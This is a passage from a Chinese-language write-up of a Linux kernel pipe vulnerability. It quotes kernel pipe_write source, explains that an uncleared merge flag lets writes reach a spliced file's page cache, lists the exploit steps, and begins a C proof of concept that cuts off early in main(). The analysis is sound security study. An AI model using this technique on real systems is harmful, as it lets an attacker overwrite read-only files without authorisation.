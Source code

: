可以看到这里没有对改入后的`pipe_buffer`结构体中的`flags`初始化来清空。

因此，若原本`pipe_buffer`结构体中`flags`标志位带有`PIPE_BUF_FLAG_CAN_MERGE`标志，则不会被清空。

此时若再对`pipe`调用一次`write`来写数据，则会进入如下分支：

```c
head = pipe->head; // 现在新的head指向挂入的文件缓存页
was_empty = pipe_empty(head, pipe->tail); // 不为空
chars = total_len & (PAGE_SIZE-1); // 写入的数据，不会为0
if (chars && !was_empty) {
    unsigned int mask = pipe->ring_size - 1;
    struct pipe_buffer *buf = &pipe->bufs[(head - 1) & mask];
    int offset = buf->offset + buf->len;
	
    // 是否有该属性，我们通过读写一整个管道后已经带有该属性。挂入文件页后并没有清空。
    // 因此进入该分支进行续写
    if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
        offset + chars <= PAGE_SIZE) {
        ret = pipe_buf_confirm(pipe, buf);
        if (ret)
            goto out;
		
        // 写内容，造成越权写
        ret = copy_page_from_iter(buf->page, offset, chars, from);
        if (unlikely(ret < chars)) {
            ret = -EFAULT;
            goto out;
        }

        buf->len += ret;
        if (!iov_iter_count(from))
            goto out;
    }
}
```

## 0x04. 漏洞利用：编写poc

按照上述漏洞来编写`exp`，大致流程如下：

- 打开待覆写文件，从而让文件的缓存页留在内存中
- 建立管道，计算管道的大小，向管道写数据填满管道
- 从管道读数据清空管道，此时每一个管道中的`pipe_buffer`都被写上了`PIPE_BUF_FLAG_CAN_MERGE`位
- 调用`splice`零拷贝，从而将文件的缓存页挂入`pipe_buffer`，但`flag`未清空
- 再次向管道写数据，触发漏洞，向文件缓存页进行续写

```c
#include "ltfallkernel.h"
#include <sys/stat.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 0x1000
#endif

int main(int argc, char **argv)
{
    if (argc != 4)
    {
        error("Usage: %s [TARGET_FILE] [OFFSET] [DATA].", argv[0]);
        exit(0);
    }

    int pipe_fd[2];

    const char *const path = argv[1];
```